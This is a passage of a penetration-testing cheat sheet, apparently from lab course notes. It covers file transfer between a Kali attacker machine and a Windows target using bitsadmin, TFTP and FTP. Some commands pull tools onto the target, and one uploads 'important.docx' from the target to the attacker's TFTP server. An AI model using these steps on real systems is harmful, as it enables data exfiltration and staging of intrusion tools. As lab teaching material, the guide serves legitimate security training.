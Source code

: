 The /transfer in bitsadmin is one of the simplest ways to download the file from the attacker machine

```
bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe
```

# TFTP File Transfer

Works by default on:

Windows XP

Windows 2003

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```
Now you can put stuff in /srv/tftp and it will be served. 

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```
## TFTP File Upload

```
kali@kali:~$ sudo apt update && sudo apt install atftp kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

```
 C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
```

# FTP File Transfer

Install pure-ftpd

```
kali@kali:~$ sudo apt update && sudo apt install pure-ftpd
```

Setup script

```
kali@kali:~$ cat ./setup-ftp.sh #!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser 
sudo pure-pw useradd offsec -u ftpuser -d /ftphome 
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```
We will make the script executable, then run it and enter “lab1234” as the password for the offsec user when prompted:
